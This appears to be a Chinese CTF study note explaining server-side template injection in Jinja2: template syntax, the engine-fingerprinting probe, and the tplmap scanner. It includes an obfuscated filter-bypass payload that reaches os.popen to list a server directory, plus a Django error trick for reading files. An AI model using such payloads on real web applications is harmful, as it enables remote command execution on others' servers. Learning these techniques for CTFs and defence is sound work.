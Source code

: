 # SSTI

## 定义以及理解

模板注入涉及的是服务端Web应用使用模板引擎渲染用户请求的过程

模版引擎一般都默认对渲染的变量值进行编码和转义，所以并不会造成跨站脚本攻击。

如果服务端将用户的输入作为了模板的一部分，那么在页面渲染时也必定会将用户输入的内容

进行模版编译和解析最后输出。

最大的优点就是你可以在服务器端动态生成HTML页面，看起来跟静态HTML页面一样。

首先我们先讲解下什么是模板引擎，为什么需要模板，模板引擎可以让（网站）程序实现界面与数据分离，业务代码与逻辑代码的分离，这大大提升了开发效率，良好的设计也使得代码重用变得更加容易。但是往往新的开发都会导致一些安全问题，虽然模板引擎会提供沙箱机制，但同样存在沙箱逃逸技术来绕过。

（快捷方便------>承担风险）

所以漏洞的来源还是那一个：过于信任用户所输入的数据。



![img](https://tcs-devops.aliyuncs.com/storage/11241ba5a4bc12bae229287158179cff4836?Signature=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJBcHBJRCI6IjVlNzQ4MmQ2MjE1MjJiZDVjN2Y5YjMzNSIsIl9hcHBJZCI6IjVlNzQ4MmQ2MjE1MjJiZDVjN2Y5YjMzNSIsIl9vcmdhbml6YXRpb25JZCI6IiIsImV4cCI6MTYyNjM0OTM2MSwiaWF0IjoxNjI1NzQ0NTYxLCJyZXNvdXJjZSI6Ii9zdG9yYWdlLzExMjQxYmE1YTRiYzEyYmFlMjI5Mjg3MTU4MTc5Y2ZmNDgzNiJ9.-UXB24hXZzUZ9TqPnUJABW9ONURC_wcLsIvsnTRqz18)





祭出这张经典的图，经常用来判断模板类型



需要关注的点：{{7*‘7’}}



Jinja2输出为49

TWIG输出为7777777

那么到底这个东西能干嘛呢？

先给出初步印象（jinja2）：

用户输入{{7+7}}

然后服务器帮你运行{{}}中的代码，算出来=49.

就是相当于服务器帮你解析运行了你输入的数据，这时候我们如果输入的是恶意的代码........

## 基础语法

~~觉得写的太少了想添加欢迎。~~


```plain
{% ... %} for Statements
{{ ... }} for Expressions to print to the template output
{# ... #} for Comments not included in the template output
#  ... # for Line Statements

```



这个是官方文档的介绍


{%%}可以用来声明变量，当然也可以用于循环语句和条件语句。


{{}}用于将表达式打印到模板输出


{##}表示未包含在模板输出中的注释


##可以有和{%%}相同的效果


```plain
{% set x= 'abcd' %}  声明变量
{% for i in ['a','b','c'] %}{{i}}{%endfor%} 循环语句
{% if 25==5*5 %}{{1}}{% endif %}  条件语句

```



```plain
# for i in ['a','1']{{ i }}# endfor
{% for i in ['a','1'] %}{{ item }}{% endfor %}
这两条是等效的，但是有个前提，必须在environment中配置line_statement_prefix即app.jinja_env.line_statement_prefix="#"

```



You can use a dot (.) to access attributes of a variable in addition to the standard Python __getitem__ “subscript” syntax ([]). --官方原文


除了标准的python语法使用点`（.）`外，还可以使用中括号`（[]）`来访问变量的属性。


```plain
{{"".__class__}}
{{""['__classs__']}}

```



从某种意义上，这也是一种绕过。


有些题目会写的很长，不妨拿个过来看看，如果能看懂那基础（甚至是进阶）部分应该就没什么问题了。


```plain
{% set id=dict(ind=a,ex=a)|join%}#利用join过滤器拼接成index，下面几个类似
{% set pp=dict(po=a,p=a)|join%}
{% set ls=dict(ls=a)|join%}
{% set ppe=dict(po=a,pen=a)|join%}
{% set gt=dict(ge=a,t=a)|join%}
{% set cr=dict(ch=a,r=a)|join%}
{% set nn=dict(n=a)|join%}
{% set tt=dict(t=a)|join%}
{% set ff=dict(f=a)|join%}
{% set ooqq=dict(o=a,s=a)|join %}
{% set rd=dict(re=a,ad=a)|join%}
{% set five=(lipsum|string|list)|attr(id)(tt) %}#这里用lipsum过滤器最终能够取得数字5{具体流程：生成随机数字->字符串列表输出->index("f")找字符'f'在生成的列表中的第一次出现的位置..}（lorem is not just a normal snippet—it’s actually a generator. Every time you expand it, it will generate a 30-words dummy text, splitted into a few sentences.）
{% set three=(lipsum|string|list)|attr(id)(nn) %}
{% set one=(lipsum|string|list)|attr(id)(ff) %}
{% set shiba=five*five-three-three-one %}
{% set xiahuaxian=(lipsum|string|list)|attr(pp)(shiba) %}#（这个是下划线，用pop取，和上面类似）
{% set gb=(xiahuaxian,xiahuaxian,dict(glob=a,als=a)|join,xiahuaxian,xiahuaxian)|join %}
{% set bin=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join %}
{% set chcr=(lipsum|attr(gb))|attr(gt)(bin)|attr(gt)(cr) %}
{% set xiegang=chcr(three*five*five-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one)%}
{% set space=chcr(three*three*five-five-five-three) %}
{% set shell=(ls,space,xiegang,dict(var=a)|join,xiegang,dict(www=a)|join,xiegang,dict(flask=a)|join)|join %}
{{(lipsum|attr(gb))|attr(gt)(ooqq)|attr(ppe)(shell)|attr(rd)()}}
```

不做过多解释，之后你还会看到他的。

## 使用工具

tplmap:ssti扫描工具，在初期会带给你美妙的体验

```
git clone https://github.com/epinna/tplmap
```

至于用法-h自己慢慢摸索。

## Django报错

不是ssti


但是是模板所以放这了，原理是溢出


%80后的字符结合报错信息UnicodeEncodeError可以推断是由于ascii编码不支持导致的报错


网站是使用Django进行开发的,结合PHP可以通过在参数中注入@来读取文件的漏洞,依次查看python的配置文件和数据库得到flag的内容


（这个我自己总结图片被吞掉了，先放着）

